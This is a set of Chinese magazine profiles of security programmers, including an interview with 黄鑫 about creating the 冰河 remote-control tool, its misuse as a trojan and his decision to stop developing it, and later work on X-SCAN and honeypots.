网上很多人都知道小四哥“发帖”很多，在很多技术论坛，特别是在“白云黄鹤”BBS上随处可见他的“精华帖”。提到这些帖子，小四一再谦虚地表示那都是为了与广大网友相互学习交流，其中不少是对他人理论与经验的整理总结，还有一些是翻译文章。同时他认为，不论就技术方向还是文档风格而言，自己的帖子更适合程序员阅读参考。不过令小四始料不及的是自己的名字也随着这些高技术含量的帖子的增多为越来越多的网友所熟知。文章开始提到的那篇《你尽力了吗》虽未涉及具体技术问题，却被很多网友视作“经典”收藏，因为他们可以从中感悟到那种面对成绩和荣誉总是一笑而过的人生境界。

### 低调小四

采访札记：

“……一个程序员做到W. Richard Stevens那个份上，做到逝世后还能叫全世界的顶级Hacker们专门著文怀念，但生前却不曾著文攻击，想想看，那是一种什么样的境界，那是一份什么样的淡然……”这是小四那篇《你尽力了吗》中的另一点睛之笔。

除了W. Richard Stevens，陈庆的偶像还有贝尔实验室PLAN9的发明者与UNIX之父Ken Thompson和Dennis M. Ritchie，集“图灵奖”与“奥运银牌得主”于一身，这样的传奇已令人仰视，但更让小四感喟的则是其坐拥殊荣仍低调内敛的脱俗境界。

小四说庄子的哲学思想对自己影响很大，他很崇尚庄子淡漠名利的超然人生态度。他说自己一度脾气急躁，与别人讨论技术问题常会争个面红耳赤，语锋犀利，不留情面。虽是对事不对人，但常令对方很难接受。后来一位小四很尊敬的大师兄了解他这种情况，就建议他读读庄子。庄子“人不与天争”的观点使他很受触动，乍一看似有消极之嫌，但本质上是一种遵循客观规律的积极生活态度。现在的小四面对生活中的挫折、失意和过错都以乐观辩证的成熟态度对待，待人接物更加随和、友善。他已将顺其自然、平淡低调视作自己重要的生活准则。用他自己的话说就是：“做人不要跳来跳去！”

交谈中小四多次强调自己的“程序员”身份，他认为一个程序员的生活方式就应该是甘于寂寞，在代码行间默默耕耘。在浮躁烦恼的时候，他就会去翻一翻庄子的书，顿悟人生如梦，心境很快会平静下来。

小四至今为当年执意从银川铁路分局走出而中断的党组织关系而惋惜不已，这让我感到他身上很强烈的计划经济时代的传统组织观念，这在当今青年人里是少有的。而现在他的组织观念更多的表现为一种“团队精神”。他说“绿盟”给他提供了一个最佳的技术交流环境，一个人的能力总是有限，别人的长处往往正是自己的不足。“一根筷子很容易折断，但10根筷子在一起就很难折断”，这是他对个人与团队的理解，也是“绿盟人”的共识。

在“绿盟”那段发展困难的时期，面对其他公司的诚邀加盟，他这样答复对方：“我们当时十几个人一起来的，这会儿我要是离开他们一个人先走了，那以后我还‘混不混’了？”大白话，但很有分量。小四说抛开技术本身，他在“绿盟”比较佩服的人就是DEEPIN和“眼圈”沈总。前者的少年老成，后者的人格魅力，他说，“有‘眼圈’在，就感觉公司还有希望，有困难，大伙儿团结起来就能克服。”

小四家境很困难，父母去世又早，家庭生活的重负和责任都落在他的肩头。但给我留下更深印象的倒不是他苦撑家庭危局的艰艰经历，而是他叙述此事时平静的语气和轻松的神情。与其说这是人在苦难过后表现出的释然与超脱，我更相信是潜心研读“老庄”修得的正果。小四绝对是个性性中人，过去20年艰苦的人生经历，培养了他对家人与朋友的责任感。他视朋友为生活中不可缺少的财富。从长沙母校到银川小站，再到北京“绿盟”，如浮云游子般一路走走停停，但友情从来未曾丢弃。每当回忆起巴山那段小站上团委书记期盼的助学，回忆起湖南长沙至岳阳的列车上，同学在寒冷冬夜里“十八相送”的背影，小四的语气依旧平淡，但他目光的“缓冲区”中，却有明显的深情“溢出”。关于交友之道，小四的原则是，“朋友之间尽力互相帮助，帮对方的忙别记着，更不要想着有一天朋友还人情，把这个帮倒找回来，但别人帮自己的忙一定要记住。”

小四不是个生活兴趣单一的人，在计算机技术圈外还有一个“偶像”，那就是足球巨星马拉多纳。从小就爱踢球的他称自己是绝对的“阿迷”，马拉多纳忠实的拥趸。此外他还爱爬山、打乒乓球，喜欢听音乐，电脑里收集有大量的影视剧经典插曲及罗大佑老歌的MP3。不过兴趣归兴趣，他的一位师兄对他有最准确的定位：“你就是为电脑而生的，你有一天搞不好会死在键盘上！”此话后半句似有些不吉利，所以不宜作本文的结尾，那么还是再听一个小四讲的小故事吧：“一条远航的船上，船长管理着维持船员生命的水，但有一个船员屡屡偷水喝，船长对其防不胜防。直到一天，船长生命垂危，死前他偏偏把管水的重任交给了这个‘惯偷’。可此后，该船员不但没再监守自盗，反而更珍惜每一滴水，且宁可自己少喝，以节省水的使用。他明白了水的重要与责任的重大。”小四说这个故事让他懂得了责任在身意味着什么。`[完]`

---

（上接第26页）

监控和安全工具套件。这次不再是张秉炜单兵作战，而是小组协同作战，张秉炜担任项目系统程序员，负责扫描、查杀引擎和底层驱动的编写。

Antiy Ghostbusters 3.0规划期为15天，实际开发时间为45天，测试只有5天，就上线发布，几乎违反了所有的软件工程原则。但这样一个大集成的软件的稳定性却在所有人的意料之外。软件发布之后，除了发现了扫描到某种特殊的zip包会出现扫描的异常中止外没有出现大问题。

对于Softbase的排名，张秉炜并不满意，首先Antiy Ghostbusters并不应归入反病毒类产品，而应归入安全产品（Security），同时Softbase的排名，是根据国际上PC Magazine杂志报道的次数。由于Antiy Ghostbusters仅仅参加了2002年PC Magazine的横向测试，因此排名不算高。

张秉炜在安天，即将度过29岁生日，在1年多的时间里，他从高级程序员晋级为系统程序员，也成为了安天实验室的第九位股东，并开始领导安天负责网络安全研发方向的Antiy Numan小组。十年程序苦旅，一番少年情怀。`[完]`

---

### 永远的“冰河”
——访著名软件“冰河”的开发者黄鑫
本刊记者／秦丁可

曾有一段时间，“黑客”在中国被人这样曲解：“黑客就是会用‘冰河’黑别人电脑的人！”一听便知这是外行笑话，但引起这场误会的却是“冰河”这个在国内网络安全圈从知名度到装机量都名列前茅的软件。这款优秀网络工具一经问世就颇受争议，争议的核心是它既可当作植入被攻击端的木马，也可作为正当的网络远程管理利器。“冰河”既是软件名也是其作者黄鑫的化名，这个名字挺“酷”，容易联想到霜天雪地里冷酷坚冰下涌动的寒流。自“发源”以来，这条奔涌的“冰河”已经流经大半个中国，冲击出一片“冰河”流域，不计其数的“菜鸟”们从这一流域步入更为广阔的网络安全技术天地。公平地讲，“冰河”及其开发者黄鑫在中国网络安全技术发展史上应占有一席之地。今天让我们一起走近黄鑫，涉入“冰河”。

印象中，自然界里“冰河”何等肃杀与寒气彻骨，而坐在我面前的程序员黄鑫却热情如火，谈笑风生。在北京盛夏一个雨后清爽怡人的傍晚，我随着他对往事清晰的回忆，沿“冰河”逆流而上，追溯源头……

#### “冰河”的起源

话题从黄鑫与电脑的第一次亲密接触开始。97年的黄鑫还是西安电子科技大学的一位大三学生，说来难以置信，在大一大二的时候，他还没怎么接触PC，用他自己的话说是：“有一天和宿舍最要好的同学突然觉得应该弄台电脑玩玩了”，便两人凑钱买回一台“486”。由于电脑在使用时受到了“晚上十一点就全面断电”的校规限制，小哥儿俩再次凑钱到校外租了间小房子。玩电脑开始的日子非常之“爽”，他们经常在学校机房与个人“机房”之间以3寸软盘传递信息。但不多几日，“病毒”开始在其间滋生蔓延，学校机房成了“病毒乐园”。那时的黄鑫还是个不折不扣的初级小菜鸟，自己电脑中了病毒仍浑然不知，还乐此不疲地拷贝着“NDD”、“PCTOOLS”以及当时流行的小游戏。直到一天电脑不再正常启动，这下他抓了瞎，自己不懂，就找那个要好的“硕机合伙人”求援。好友看后送他一句话：“你中了‘秋水’病毒！”虽然到现在黄鑫仍无从考证当时好友判断的正误，但在他当时白纸般简单的计算机知识“内存”中永久存储下了“秋水”这两个字。

所谓知耻而后勇，此后黄鑫从如何用KV300、KILL等杀毒软件清除病毒开始了计算机知识的全面涉猎。那台“486”老爷车只能跑DOS，要硬跑起Windows 95来则需要足够的耐心，但黄鑫与伙伴仍抵挡不住单机版“红色警戒”的诱惑。为了可以顺畅地把游戏玩爽，为了再遇故障和病毒可以自己解决，黄鑫决心把电脑知识学深学透！他首先从KV300恢复主引导区的概念受到启发，由研究DOS磁盘引导区入手，从文件分配表到55AA扇区一步步把原本看似神秘的东西搞清。回忆那时的经历，黄鑫说：“正是病毒的存在才让我感到电脑的趣味无穷！”如果不是这份兴趣，他恐怕不会将才智和精力全部投入其中，也就不会有日后“冰河”这一影响他人更影响他自己一生的“作品”的诞生。

没过多久，已是“中级菜鸟”的黄鑫不再满足于用现成的软件按个F‘x’功能键对系统进行自动修复了，他开始使用debug，开始涉及汇编语言，很快就能不再借助任何第三方工具而用手工恢复引导扇区。不久后又将这一手工过程通过一个自编的汇编小程序自动实现，初尝成果的他小有成就感，至此，黄鑫只用短短数月便完成了由“初级小菜鸟”到“初级专家”的质的转变。此时在计算机求知路上的黄鑫已是脱缰的野马，任何成绩的取得都不能放慢他向更高技术层次迈进的脚步。正好大三下学期开设了C语言课程，C语言可实现的那些汇编语言无法比拟的强大功能深深吸引了黄鑫，在同班一位极具编程天赋的同学的鼓动下，他开始了自己编程研究的重要转型，主攻C语言。可以想见，对于汇编语言已经熟稔于心的他，再学C语言可谓触类旁通，很快轻松上手了。但每想到潜心修得的一身汇编硬功就此“废弃”，黄鑫的惋惜之情溢于言表，由此也让黄鑫深刻认识到计算机知识的更新速度之快，让求知者不得喘息。从大三开始对计算机知识如饥似渴的汲取，为黄鑫日后成为开发出“冰河”这样经典软件的优秀程序员奠定了坚实的基础。应该说“冰河”今天的一泻千里得益于当年的厚积薄发，大学时代知识的点滴积累就是汇成汹涌“冰河”源头的涓涓细流。

#### 初出茅庐，小试锋芒

大三后半学期开始，黄鑫与那位擅长编程的同学联系到咸阳市的一家公司做一份没有报酬的“兼职”，为的是丰富自己的实际开发经验。两人每个周末从西安跑咸阳一趟，为该公司开发一个数控机床的工控机软件。这项开发也充分发挥了他在DOS与汇编方面的特长。两个人连续数日挑灯夜战，效率极高，原开发单位一个月没有完成的工作转到他俩手中仅用4天就将一个DOS下运行的仿Windows界面框架构建完毕，接着只用两周时间全部开发工作顺利完成。虽说这个小项目与日后黄鑫参与的大型开发任务无法相比，但毕竟是第一次工作实践。人生每一个有意义的“第一次”都是值得纪念的。后来得知这套工控机软件在全国销路很好，两个没有拿到一分钱奖励的大学生却由衷地感到自豪与成就感。

该公司希望他们留下来，但长时间在西安与咸阳间往返奔波毕竟不便，黄鑫决定在母校“西电”附近的软件公司寻找机会。可每次面试，对方刚听完他的自荐便主观判定这个未出校门的毛头小伙子既无工作经验，更不可能身怀绝技，甚至还对一个学生的工作责任心表示怀疑，这令黄鑫非常不快也挺寒心。最后他以一种无所谓的心态在一位本校教师开的一家名叫“创富”的小软件公司与这位老师面谈，他明确地跟对方说：“你如果试用我一两个月，说出我什么地方不行，我马上心服口服地走人；但如果连个考察的机会都不给，那未免太主观臆断了。”这位老师觉得有理，就拿出一个别人用Delphi编得不很完善的程序让他修改，黄鑫用了不到半个小时就轻松搞掂，于是他被聘用了。正是这份兼职在他日后的职业发展道路上起到了重要作用，他出众的开发能力很快受到这位老师赏识，便在黄鑫毕业后将他推荐到在深圳的“中国科技开发院”工作。

当时的黄鑫因存在校与同学打架的记录，毕业评定多少有些不利，他清楚地记得恰好是“西电”老校友的“开发院”老总面试他时的第一句话：“你现在还敢打架吗？”而黄鑫的回答仍有个性：“有什么不敢的？”老总立即笑道：“行，你来我们这儿吧！”不久后黄鑫得知老总曾是昔日“西电”散打队的一员，原来两人的经历与性格很像，老总也许在黄鑫身上看到了当年的自己。

说到两人的友情，黄鑫话很多。两人年纪相差整一轮，既是校友、上下级，更是忘年至交。“他就像一位老大哥，在我多次处境困难的时候无私地帮助过我。”黄鑫一脸真诚地说。除了感激，黄鑫对他更多的是发自内心的敬佩，敬佩他的人格魅力、事业心、驾驭企业发展的管理水平、市场运作能力，特别是洞悉判断人的锐利慧眼。大四下半学期，早已完成毕业设计的黄鑫开始在“开发院”上班了。在其后一年多的时间里他的研发水平不断提高，其间他作为主要研发人员参与完成了标底1000万的上市公司“南宁百货”企业MIS系统招标项目，共历时9个月。约一年后他又被借调到广州科友公司做一个USB口令卡的开发，此项目3个月一个开发周期，第一个周期是在模拟环境中完成产品的测试，就在做完测试前后，黄鑫因家庭生活的经济困难以及个人职业发展的长远考虑，面对上海一家公司开出的明显优厚的待遇条件，做出第一次跳槽的决定。当时钱对他是一个很实际的问题。但公司的现状和他就做人原则都决定了不可能向公司提什么条件，与“老大哥”谈及此事，对方虽感惋惜，也表示了极大的理解。面对公司的挽留，黄鑫一再强调个人原因的同时非常真诚地表达了对老总本人和公司的感激与不舍。时至今日，这两位忘年交仍保持着不减当年的真挚友情与密切联系。

他到上海那家公司后工作一度还算顺心，公司先前许诺的待遇条件都兑现了。但天有不测风云，刚巧又过了3个月，公司上层决定放弃黄鑫参与开发的这个项目，更糟的是公司对整个行业前景不再看好而决定转向，这意味着黄鑫注定再次跳槽。于是“冰河”首次来到了北京。北京也是他一直想来的地方，这里有全国最好的网络安全研发环境。不过他现在就职的北京思乐信息技术公司是深圳思乐公司所属的分支机构，看来自黄鑫与深圳还是有缘。至此，这条不安分的“冰河”从西到南再向东，最后流到了北，程序员黄鑫算是在北京定下心来。

对稳定了下来。

### “木马”、“冰河”入梦来

大四后期早早就完成毕业设计，又有一身编程绝技在身不愁工作去向，黄鑫显得比同学轻松自在许多，于是学校附近的网吧经常可以看到他的身影。已在单机上把加解密之类的东西玩熟玩透了的他，有一天便萌发了在网上大搞“隐身与瞒天过海之术”的想法。通过接触当时很流行的“BO”以及“netspy”等后门程序，更激发他将这一想法付诸实施，因为他发现这些程序在功能实现上也有局限，比如当时的“netspy”只是一个扩展的FTP客户端/服务端程序，防范起来比较容易。相比之下“BO”的功能要强大很多，但它毕竟是舶来品，黄鑫觉得自己完全有能力开发出功能更强大完善的工具来，这也是提高自己网络编程水平的好机会。

以前缺少必要的网络测试环境，Winsock都未曾涉及，正好就此进行一番“恶补”。这时Delphi强大的控件功能派上了用场，在开发建立网络连接模块时大大节省了时间，提高了效率。开发的前期还比较顺利，网络编程对他这样一个汇编与C语言高手来说自然不是什么难事，偶遇生僻费解的问题，他就去请教那位编程水平很高的同学。很快，作为“冰河”雏形的一个可执行文件终于问世，还来不及起名字就先在宿舍同学之间进行测试，大家普遍反应不错，说比“BO”一点也不差。后来又将测试中发现的不足和问题进行改善。

事情至此也就告一段落了，软件只是在同学中传着玩，当时的黄鑫从没想过把这个开发动机很单纯的软件发布出去以求名利双收。但事情在其后一个偶然的机会里发生了改变。在那次去做“南宁百货”的招标项目时，开发组中一位南宁当地的技术人员用过这个“冰河测试版”后也大加赞赏，由于他接触国际互联网较早，对互联网广泛的影响力体会很深，就强烈建议黄鑫将这个软件在网上发布。比起网上众多很不入流的“共享软件”，这个软件定会大受欢迎。一番话将黄鑫说动了，决定一试。这时才想起来还没给软件正式命名，大伙儿就一起帮着想，后来采取的方式是把金山词霸打开随机地敲入一个拼音字母，看出来什么字和什么联想词，最后在“流沙”、“冰河”等词儿中选中了“冰河”。这个日后广为传播的“酷名”就是这么随意“瞎起”的。

不过黄鑫现在也觉得有些“歪打正着”：“表面封冻的坚冰下暗流仍在涌动”，与“木马”特性颇为暗合，还兼具点儿文学韵味。接下来的问题就是选哪个网站上传发布，那位南宁的同事先推荐了一个名为“PCHOME”（电脑之家）的网站，黄鑫自己又在网上找到了一个“中国程序员网站”，于是两个站点都放上去发布了。

“冰河”发布后果然反响热烈，北方工业大学的两位研究生最先给黄鑫发来Email，在对“冰河”大加称赞的同时，还希望交友，以便交流提高。他俩当时正给电信部门做一个“远程监控”的项目，经比较，他们认为同类软件中“冰河”综合性能最佳。后来又有大批的企业网管给他写信，请教与探讨技术细节，无意中黄鑫也交到了很多朋友。

“冰河”从黄鑫在校时开发其雏形，到1.0测试版正式发布一直是英文版的。一心想着尽快做出这个软件的他完全没有考虑语言支持问题，但一经对外发布，问题就来了，一位英文不好的网友给他发信指出：“作为‘冰河’开发者你是中国人，面向的也主要是中国用户，为什么不写‘中文版’？难道中国人自己的软件还要中国人来汉化吗？不会是为了炫耀你的英文水平吧？”一席话真给黄鑫提了醒，没想到自己完全忽略了这个重要问题，他一点儿也没在意网友有点过激的言辞，仅仅一周后就完成发布了“冰河”1.1中文版。

可中文版刚发布几天又发生了一件令他啼笑皆非的小插曲：他又收到一位网友的来信：“我用的是英文操作系统，没有中文环境，你能不能出个英文版？”黄鑫只好回信耐心告知他此前有英文版。再后来还有人指出“冰河”操作界面比较简陋，应加以改善，这些来信让黄鑫在感到“众口难调”的同时更感到“冰河”的大受欢迎。为此他计划在“冰河”中实现多语言环境支持并将其彻底“变脸”，那时他正忙于“南宁百货MIS系统”的开发，在没有影响工作进度的情况下，他用业余时间将“冰河”升级到了1.2版。

在此需要特别提一下，后来“冰河”从1.2直接升至2.0而不是1.3、1.4、1.5等等类推，是因为黄鑫发现自己最初软件结构的设计思路很有局限，在此结构上的升级空间越来越小。所以，“冰河”2.0除新增“键盘记录”、“截取CACHE口令”等少量新功能外，较原来1.x版本的最大改进就是整个程序结构特别是操作界面的变化，不再是以前版本的简单升级，其后又有“冰河”2.1、2.2的改进版本。

作为开发者，黄鑫自己从未用它“搞”过任何一台别人的电脑，从初次开发到每次升级后的测试都是在属于自己学习或工作的网络环境中进行的，而在互联网上不足10次的测试都是通过OICQ向在线好友发出请求，经对方同意后在其电脑上进行的。其实黄鑫本质上就是一个技艺高深的程序员，他关注的是技术本身，当看到自己以单纯动机开发出来的软件被他人用于实现不好的目的，也只能深感无奈。

这里就自然说到有关“冰河”停止升级开发这一黄鑫自己都不愿过多提及的话题。“冰河”的最终版本是2.2B，此时的“冰河”已“风靡全国”。“那时我突然感到‘冰河’把大家引入歧途了，我在技术论坛上发现，很多网友，特别是年纪很小、刚开始对网络着迷的小孩儿已经深信：‘会用冰河就是黑客！’我敢说用‘冰河’的人90%都是为了给别人种‘木马’，搞破坏或是用来满足虚荣心的，真正用于个人正当远程控制或是对网络编程技术本身感兴趣以此进行研究的不到10%，这让我觉得‘冰河’已失去了再升级下去的意义，做起来也没什么意思，所以到2.2B就终止了开发。”这是黄鑫对此事的自述。

事实上，他知道什么是一个真正的优秀程序员应有的道德准则和社会责任。但“‘冰河’现象”的事态发展并不为其开发者的自重与自律行为所左右。在朋友帮忙制作的“木马冰河”黄鑫个人主页的技术论坛上，到处充斥着“冰河‘黑机大法’”的教学帖子，有的帖子还直奔“‘冰河’万能密码”的主题。黄鑫眼看着自己以技术提高为良好初衷建立起来的网站正在变成一个“木马”“黑机”的交流园地，促使他不得不继停止“冰河”升级开发后，又关闭了“木马冰河”个人站点。

停止“冰河”的开发后，黄鑫于2000年底加盟著名网络安全网站“安全焦点”（www.xfocus.org），他将完成公司本职工作之外的精力都用于知名扫描器“X-SCAN”的开发升级以及“安全焦点”的建设维护。也许X-SCAN的知名度没有“冰河”那么高，但用过扫描器软件的人对它都不会陌生。开发这款优秀扫描器的最初设想还是在2000年天极网组织的黑客大会上，几个技术圈里的朋友对他说：“‘冰河’不再搞了，你总得再做点什么吧？”朋友建议他做扫描器，黄鑫也感觉不论从自己的技术特长和使用前景上看这是一个不错的主意，于是回来就开始做，并很快做出了框架。

在“安全焦点”几位朋友提供大量漏洞及编程资料的协助下，开发进展顺利。X-SCAN的第一个版本很快在“安全焦点”网站发布，下载量一路攀升。后来随着版本升级，支持插件、远程操作系统识别等重要功能都逐步得以实现，眼下X-SCAN的2.0版即将问世。可以说X-SCAN是继“冰河”后黄鑫的又一代表作，且就技术含量而言，更是超过了他的成名作“冰河”！

现在，黄鑫一面继续着X-SCAN的版本升级，一面正主攻他在“安全焦点”的一个重要研发任务，就是被形象地称为“黑客陷阱”的引诱攻击者继而对其跟踪检测分析的“HONEYPOT”（蜜罐）系统。攻击者一扫描到“HONEYPOT”就会以为这是一台毫不设防的“肉鸡”，一旦发起攻击，其攻击行为和手段的每一步每个细节都被“HONEYPOT”系统监视得一览无余并记录在案进行分析。黄鑫现在做的就是开发一个“HONEYPOT”单机版模拟环境，“HONEYPOT”的开发意义在于扩大其在国内技术领域的认知度，以吸引更多的人加入这一技术的研讨。

从“冰河”到“X-SCAN”，再到“HONEYPOT”，黄鑫在程序开发的技术探索上步步为营，不断积累着宝贵经验。现在的黄鑫正值一名优秀程序员的黄金年龄，集锐气与成熟于一身，人们有理由期待他超越当年“冰河”的辉煌。

### 程序员黄鑫

### 采访问记

黄鑫是广东人，这很容易从他的相貌特征上找到答案。由于父母长期在山西太原工作，黄鑫就出生在这里并一直生活到高中。除短短几年的南方学习与工作经历，26岁的他在北方生活了20余年。生活中的黄鑫喜交友重义气，初次接触就容易让人消除陌生感，不知长年的北方生活对他豪爽直率、热情健谈的气质有无潜移默化的影响。

父母都是知识分子，严格的家教使黄鑫从小学直到高中的一年级都是听话的好学生，学习成绩始终名列前茅。但父母的严教也有些偏颇，要求黄鑫将全部时间精力用在学校书本知识上，课外一切正当的兴趣爱好都不鼓励黄鑫去尝试。曾有一段时间，黄鑫迷上了书法、篆刻，这可是现在不少家长掏钱对孩子培养的方向，但当年却遭到父母的极力反对。用黄鑫自己的话就是：“家里对此疯狂打压”，父母是怕这些爱好分散他的学习精力。

即使这样，灵气十足的黄鑫还是练就了较好的书法、篆刻基本功。后来他继续按父母之命用功读书，只是对那些被迫放弃的爱好依然不舍，对不能拥有同学那样更多的业余娱乐时间心有不甘，幻想着有“解放”的那一天。终于到高中一年级时，父母因工作调动先回了湛江，暂时“没人管”的黄鑫那压抑已久的男孩淘气贪玩的天性在几个同学的带动下释放了出来；校内球场、校外花鸟市场随处可见他尽情玩耍的身影，打架也成家常便饭。放纵的结果是高一第一学期考试全班倒数第三名。好在这种低靡状态只持续到回湛江上高三前，在父母恢复严管与高考的重压下，学习成绩又很快上来，并顺利地考上大学。

高考时黄鑫的第一志愿报的是公安，他从小就想当警察，年幼时最喜欢戴“警察帽”，这是典型和常见的男孩心理特点的理想。高考分数与体检都过了录取线，无奈报名且过线的人远远多于招收名额，又无特殊关系，最终与这个理想失之交臂。但黄鑫至今认为，如果当年能被录取，自己会是个出色的警察，至少不会比现在当程序员做得差。也许当年的阴错阳差注定黄鑫终将是一个优秀的程序员而非警员，现实中这种“误打误中”的人生经历比比皆是。今天的黄鑫不应再有更多的遗憾，现在所取得的成绩已足以说明他的大脑就是为计算机技术而生，其实一切早已在冥冥之中注定。

黄鑫因“冰河”一举成名，他坦承“冰河”给他的生活带来许多的改变，有名气以及因名气间接带来的物质收益，但最近他看中的还是以“冰河”为媒结交的圈内外一大批志同道合的朋友，他视其为一生享用不尽的最大财富。酷爱金庸作品的黄鑫很认同“网络安全界”与“武林界”的许多相似之处，同样的高手如林、山外有山；同样的艺无止境、学海无涯；同样的人在江湖，义薄云天。

“冰河”也给黄鑫的生活带来很多意想不到的小烦恼和小幽默，网友们因“冰河”而对他很敬佩，更有的把他当成了“神仙”，在QQ上他就同一个网友有过这样的对话：

> 网友：“你就是‘冰河’？”
> 黄鑫：“是的。”
> 网友：“那你是不是现在就能进到我的电脑里？”
> 黄鑫看罢几乎要“晕倒”！

另一次，黄鑫电脑的个人防火墙有段时间经常报警显示有人对其进行扫描；一看端口正是“冰河”的默认端口7626，开始他没多介意，但时间久了难免烦人，于是黄鑫就编了一个伪“冰河”服务端，对方一连就能显示其IP，然后他用信息回复功能告知对方：“本人就是‘冰河’开发者，求你不要再骚扰我”。对方可能是不信，收效不大，无奈之下他又开了一个简易的Telnet服务端程序，然后跟对方说：“请你Telnet到xxx.xxx.xxx.xxx咱们聊聊！”这下对方终于知道遇到了“真人”，没有一个人敢上来应答。

现在的黄鑫很少谈“冰河”，甚至不喜欢谈“冰河”，因为在他看来，再谈一切与“冰河”相关的话题就是犯了“好汉不提当年勇”的大忌，无异于“躺着吃老本儿”，这对于他是不能容忍的，对一个程序员意味着创造与想象力的枯竭。他现在最希望的就是人们忘记“冰河”或忘记“冰河”与他的关系，他不希望现在甚至多年以后，一提黄鑫这个名字人们记住的还只是“冰河”，就如作家不希望人们只记住他的成名作，没有进取与创新，无法再超越自我对他们来说是最大的失败。古希腊哲人赫拉克利特认为世上万物都处在永远的变化之中，所以他说“人不可能两次涉入同一条河流”。在无休止变动的IT世界，年轻的黄鑫也不可能只开发一条“冰河”。所以没人知道“金庸迷”黄鑫“大侠”何时会“收山封刀，淡出江湖”。

> **关于黄鑫有关“冰河”彻底停止开发及“木马冰河”网站正式关闭的特别声明**
> 
> 因本文中曾提及的原因，“冰河”程序已于2000年4月17日彻底停止开发；木马“冰河”网站也于2000年5月份正式关闭。应“冰河”原作者黄鑫的要求，再度特此声明：“冰河”的最终版本是2.2B版，其他高版本都是别人用32位编程器自己修改所得，并未获得黄鑫本人同意。所做的修改主要限于减去作者声明信息，功能上没有任何增加，其实都是以2.2B之前版本为修改蓝本。黄鑫不敢保证修改者没有做过其他手脚。同时，2000年5月份至今，所有以“某某冰河”及“glacier”等名义进行的修改他从未同意。及2000年9月3日后在任何聊天室里以“冰河”身份活跃其中者，黄鑫不排除其均非黄鑫本人。
> 
> 因本刊栏目篇幅限制，声明全文请详见冰河网站：http://glacier.mycool.net，所有关于“冰河”的转载方也一并做答。
> 
> 最后黄鑫借《黑客防线》再次感谢广大读者、网友长期以来对“冰河”及他本人的支持与厚爱！

### “鹰”之路




### ——访著名 Linux 内核程序员大鹰

在网络安全界，如果说起艾奇伟，或许大家都会茫然，但是如果说不认识大鹰，那一定会有人取笑你。这个名字确实很响亮，就像鹰一样飞遍了网络安全界。登录他的主页 www.e4gle.org，全英文版面的设计可以看出其中的技术含量，尤其是他所在的组织的 WSS，已经达到了世界级水平。Linux 界的名人在生活中是什么样子呢？带着兴奋与神秘，我来到了约定地点。

> “你们早来了？”话到人到，大鹰突然出现了。

在茫茫人海中，与他擦肩而过的时候，你会认为这个人是顶级内核程序员吗？Adidas 的上衣，一身休闲的打扮，斜挎着背包。他不是外表很酷的那种人，相反让人觉得很舒服、容易接近，帅气而成熟的外表，深邃的眼神。他说不喜欢戴眼镜，可能就是不想遮挡这双有神的眼睛。最后我的目光落在了那台笔记本上，这是他身份的证明。如果不是拿着笔记本，可能没人会想到他的职业。他更像一个从事艺术的人。

> “先去吃饭吧，我可饿坏了。”

我楞了一下，真没想到他的第二句话是这个，我笑着点头。随便找了一家饭馆，叫了几个菜，用句古话，酒过三旬，菜过五味之后，大鹰开始讲述他的经历。

#### 我的电脑从游戏开始

高一那年我开始接触电脑，本来我是学西洋画的，而且学了7年（这让我感到惊讶，没想到以前西洋画是他的兴趣，这也可以解释他艺术外表的原因了）。那个时候我每天背着画板，到外面去写生，而且学的很不错，可以说到了专业的水平。

但是一次偶然的机会我认识了电脑，那个时候还很落后，还是386，但是那时候已经觉得很奇妙了，电脑让我产生了浓厚的兴趣。后来出现了486，一些大型的游戏出现了，比如《红警》等优秀的游戏，可以说游戏让我认识了电脑，把我彻底带入了电脑世界，我的电脑是从游戏开始的。后来接触时间长了，就不单单只限于游戏，也开始学一些 DOS 和 Basic 编程。总之，是电脑改变了我的一生，我的兴趣就全部转到这上面来了。

后来到了高考，在填报志愿的时候和家里产生了分歧。毕竟我学过7年西洋画，但是现在却要报考计算机系，所以家里很反对。在我的一直坚持下，家里还是尊重我的意见，我如愿以偿，考上了南京航空航天大学的计算机系。

在大学中，全面接触了计算机知识，学校给我提供了充足的时间和空间来学习知识，尤其是计算机的基础知识，像 C 语言和数据结构等，都学习得不错。但是由于大一的时候大部分课程都很简单，比如 Basic、计算机原理等课程早都熟记于心了，所以并没有用很大精力在学习上，大部分时间都用在玩上了；这样的时间有一年多。

终于，有一次考试我5门功课没有过，学校通知了我家里。确实没有想到事情会这样，那个时候感到人生灰暗，我开始冷静下来思考，我现在该怎么做？很有可能将来我会拿不到毕业证，我将来如何生存？那个时候确实很迷茫，有一段时间处于乱学的状态，像 MCSD，MCSE，Solaris 等等一系列的东西我都学了。那个时候大家都在看书本上的东西，但是我看的都是课外的。大学的时代是疯狂学习的时候，但是学了很多东西又觉得用处并不大。直到大学的最后，终于定位到 Linux 上。

